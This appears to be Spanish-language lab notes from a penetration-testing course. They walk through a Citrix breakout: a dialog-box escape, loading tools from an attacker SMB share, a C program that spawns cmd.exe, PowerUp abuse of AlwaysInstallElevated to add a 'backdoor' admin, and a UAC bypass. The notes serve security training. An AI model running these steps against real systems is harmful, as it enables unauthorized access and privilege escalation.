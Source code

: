 # Citrix Breakout

## Objetivo
- Obtener un cuadro de diálogo en el entorno Citrix (MS Paint, Notepad, etc.).  
- Usar el cuadro de diálogo para navegar rutas UNC y acceder a archivos restringidos (`cmd.exe`, `powershell.exe`).  
- Cargar herramientas desde un recurso compartido SMB del atacante.  
- Abrir una shell con más privilegios y escalar hasta SYSTEM usando vulnerabilidades o configuraciones débiles (AlwaysInstallElevated, bypass UAC).

---

## 1. Acceso al entorno Citrix
- Conéctate vía RDP a la URL:
```
http://humongousretail.com/remote/
```
- Usa las credenciales dadas en el laboratorio.

---

## 2. Bypass de restricciones con cuadro de diálogo
1. Abre **MS Paint** → `Archivo > Abrir`.
2. En el **campo de nombre de archivo** del cuadro de diálogo escribe la ruta UNC:
```
\\127.0.0.1\c$\users\pmorgan
```
3. Cambia el tipo de archivo a **All Files (\*.\*)** para poder ver todos los archivos y acceder a carpetas restringidas.

---

## 3. Montar servidor SMB en la máquina atacante
En la máquina atacante (Linux con Impacket):
```bash
smbserver.py -smb2support share $(pwd)
```
En el entorno Citrix, acceder al recurso compartido usando el cuadro de diálogo:
```
\\10.13.38.95\share
```

---

## 4. Ejecutar binarios desde el recurso SMB
Ejecutar directamente binarios como `pwn.exe` desde el recurso compartido para abrir CMD:
```c
// pwn.c
#include <stdlib.h>
int main() {
  system("C:\\Windows\\System32\\cmd.exe");
}
```

---

## 5. Copiar herramientas y scripts
- Usa **Explorer++** o **Q-Dir** para copiar archivos evitando restricciones del explorador estándar.

---

## 6. Ejecutar script para escalar privilegios
Ejemplo con **PowerUp.ps1** para detectar AlwaysInstallElevated:
```powershell
Import-Module .\PowerUp.ps1
Write-UserAddMSI
```

---

## 7. Crear usuario administrador
```powershell
runas /user:backdoor cmd
```

---

## 8. Bypass UAC
```powershell
Import-Module .\Bypass-UAC.ps1
Bypass-UAC -Method UacMethodSysprep
```

---

## 9. Comprobar privilegios
```powershell
whoami /all
whoami /priv
```
